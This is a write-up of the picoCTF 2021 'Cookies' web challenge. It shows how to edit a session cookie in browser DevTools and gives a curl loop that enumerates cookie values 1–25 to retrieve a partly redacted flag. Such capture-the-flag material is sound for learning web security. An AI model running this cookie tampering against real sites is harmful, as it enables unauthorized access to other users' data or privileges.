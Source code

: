 # Cookies

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 40
Tags: picoCTF 2021, Web Exploitation
Author: MADSTACKS
 
Description:
Who doesn't love cookies? Try to figure out the best one. 

http://mercury.picoctf.net:27177/

Hints:
(None)
```

## Solution

As the challenge name indicates we should keep an eye out for [cookies](https://en.wikipedia.org/wiki/HTTP_cookie) here.  
There probably are more ways to solve this challenge, but here are two solutions.

### Manual DevTools solution

Browse to the web site with your browser (I used Google Chrome).  
Then as hinted in the search text box, search for 'snickerdoodle'.  
You get a "I love snickerdoodle cookies!" message as response.
Press F12 to open DevTools and go to the `Application` tab.  
Under `Storage` and then `Cookies` select the web site.  
Note that there is a cookie named `name` with the value of `0`.

Right-click on the value and `Edit "Value"`. Change the value to `1`.  
Reload the page by pressing `F5` and note that the message changes to "I love chocolate chip cookies!".  
Depending on the value of the cookie we get different messages.

Continue increasing the value of the cookie until you see the flag in the returned message.  
The correct value is `18`.

### Semi-scripted curl solution

If we don't want to manually edit the cookie value we can enumerate the cookie values in a semi-scripted way and then use `curl` to retreive the web site and `grep` for the flag.

In Linux
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Cookies]
└─$ for c in $(seq 1 25); do curl -s --cookie "name=$c" http://mercury.picoctf.net:27177/check | grep picoCTF ; done
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_<REDACTED>}</code></p>
```

The Windows syntax is slightly similar
```
Z:\CTFs\picoCTF\picoCTF_2021\Web_Exploitation\Cookies>for /L %c in (1,1,25) do curl -s --cookie "name=%c" http://mercury.picoctf.net:27177/check | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_<REDACTED>}</code></p>
```

Here [Grep for Windows](https://gnuwin32.sourceforge.net/packages/grep.htm) and [curl for Windows](https://curl.se/windows/) was used.

## References

- [Wikipedia - HTTP cookie](https://en.wikipedia.org/wiki/HTTP_cookie)
